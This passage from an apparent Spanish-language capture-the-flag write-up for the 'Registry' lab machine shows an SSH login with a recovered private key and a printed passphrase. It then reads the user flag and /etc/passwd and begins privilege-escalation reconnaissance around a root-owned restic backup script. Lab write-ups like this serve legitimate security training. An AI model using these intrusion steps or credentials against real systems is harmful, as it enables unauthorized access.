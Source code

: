 Al utilizar esta clave privada para iniciar sesión nos pide una passphrase y si introducimos la credencial anteriormente encontrada `GkOcz221Ftb3ugog`

```console
$ ssh -i .ssh/id_rsa bolt@registry.htb
The authenticity of host 'registry.htb (10.129.220.101)' can't be established.
ED25519 key fingerprint is SHA256:LPF3XNgoNZT9BCp04FNkB9ALR69KVQYT0cV7ld6ghUk.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:42: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'registry.htb' (ED25519) to the list of known hosts.
Enter passphrase for key '.ssh/id_rsa': 
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-65-generic x86_64)

  System information as of Wed Aug 28 19:24:45 UTC 2024

  System load:                    0.0
  Usage of /:                     60.2% of 4.71GB
  Memory usage:                   16%
  Swap usage:                     0%
  Processes:                      170
  Users logged in:                0
  IP address for eth0:            10.129.220.101
  IP address for br-1bad9bd75d17: 172.18.0.1
  IP address for docker0:         172.17.0.1
Last login: Mon Oct 21 10:31:48 2019 from 10.10.14.2
bolt@registry:~$
```

Podemos ver la flag de usuario
```console
bolt@registry:~$ cat user.txt 
58ada1bc41faa...
```

# Privilege Escalation
Vemos 3 usuarios con bash
```console
bolt@registry:~$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
bolt:x:1001:1001::/home/bolt:/bin/bash
git:x:1000:33::/var/www/html:/bin/bash

```

En `/var/www/html` encontramos un fichero `backup.sh` que no pertenece al `bolt`

```console
bolt@registry:/var/www/html$ cat backup.php 
<?php shell_exec("sudo restic backup -r rest:http://backup.registry.htb/bolt bolt");
```

Este archivo pertenece a `root`.
```console
bolt@registry:/var/www/html$ ls -la
total 28
drwxrwxr-x  4 www-data www-data 4096 Apr  6  2021 .
drwxr-xr-x  4 root     root     4096 Apr  6  2021 ..
-rw-------  1 git      www-data    0 Oct  8  2019 .bash_history
-rw-r--r--  1 root     root       85 May 25  2019 backup.php
drwxrwxr-x 11 www-data www-data 4096 Apr  6  2021 bolt
-rwxrwxr-x  1 www-data www-data  612 May  6  2019 index.html
-rw-r--r--  1 root     root      612 Oct 21  2019 index.nginx-debian.html
drwxr-xr-x  2 root     root     4096 Apr  6  2021 install
bolt@registry:/var/www/html$ bat .bash_history 
```
